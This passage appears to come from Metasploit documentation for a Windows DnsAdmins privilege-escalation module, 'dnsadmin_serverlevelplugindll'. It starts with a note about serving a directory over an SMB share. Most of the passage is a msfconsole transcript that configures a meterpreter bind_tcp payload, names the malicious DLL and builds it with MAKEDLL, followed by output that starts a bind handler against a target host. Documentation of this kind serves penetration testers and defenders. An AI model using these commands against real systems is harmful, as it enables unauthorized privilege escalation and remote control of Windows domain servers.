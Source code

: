 This will create a SMBv2 server, listening on IP address 172.17.168.195, with a share named `test`, that will be sharing the contents of
the directory at `/home/gwillcox/.msf4/local/`. Next, set `MAKEDLL` to `true` and run the module to generate the payload.

```
msf exploit(multi/handler) > use exploit/windows/local/dnsadmin_serverlevelplugindll 
[*] Using configured payload windows/x64/meterpreter/bind_tcp
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > set SESSION 3 
SESSION => 3
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > set PAYLOAD windows/x64/meterpreter/bind_tcp
PAYLOAD => windows/x64/meterpreter/bind_tcp
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > set LPORT 6688
LPORT => 6688
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > set DLLNAME mp4.dll
DLLNAME => mp4.dll
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > set MAKEDLL true
MAKEDLL => true
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > show options

Module options (exploit/windows/local/dnsadmin_serverlevelplugindll):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   AVTIMEOUT  60               yes       Time to wait for AV to potentially notice the DLL file we dropped, in seconds.
   DLLNAME    mp4.dll          yes       DLL name (default: msf.dll)
   DLLPATH    %TEMP%           yes       Path to DLL. Can be a UNC path. (default: %TEMP%)
   MAKEDLL    true             yes       Just create the DLL, do not exploit.
   SESSION    3                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     6688             yes       The listen port
   RHOST     172.17.169.123   no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(windows/local/dnsadmin_serverlevelplugindll) > exploit

[*] Building DLL...
[+] mp4.dll stored at /home/gwillcox/.msf4/local/mp4.dll
[*] Started bind TCP handler against 172.17.169.123:6688
[*] Exploit completed, but no session was created.
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > 
```
